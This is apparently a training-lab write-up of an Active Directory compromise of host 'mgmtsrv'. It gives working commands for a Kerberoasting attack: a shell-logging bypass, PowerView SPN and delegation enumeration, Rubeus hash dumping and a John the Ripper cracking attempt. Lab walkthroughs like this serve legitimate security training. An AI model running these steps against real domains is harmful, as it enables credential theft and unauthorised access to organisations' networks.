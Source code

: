 ***
## ***System Information***
***

Hostname: **mgmtsrv**

IP Address: **172.16.5.156**

***
## **Steps to Compromise**
***


- Enumerating the domain i found a kerberoastable user called `sqlserversync` and has SPN set


```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

. C:\AD\Tools\PowerView.ps1

Get-DomainUser -SPN
```

![](https://i.imgur.com/gQ5GG5j.png)

- After sevreral trials i was able to dump the hashes but couldn't crack it

```
C:\AD\Tools\Rubeus.exe kerberoast /user:sqlserversync /simple /rc4opsec /outfile:C:\AD\Tools\hashes.txt
```

![](https://i.imgur.com/vd2eraG.png)

```
C:\AD\Tools\john-1.9.0-jumbo-1-win64\run\john.exe -- wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

![](https://i.imgur.com/1QtUSeK.png)


> **Although remember we had constrained delegation on `MGMTSRV.TECH.FINANCE.CORP` in our enumeration phase with bloodhound, Constrained delegation is a feature in Microsoft Active Directory that allows a service on one computer to impersonate a user and access resources on another computer. This means that the `STUDVM` computer is allowed to delegate authentication requests to `MGMTSRV` for specific services without exposing the user's credentials.**

- To enumerate users with constrained delegation we can use PowerView

```
. C:\AD\Tools\PowerView.ps1
Get-DomainUser -TrustedToAuth
```
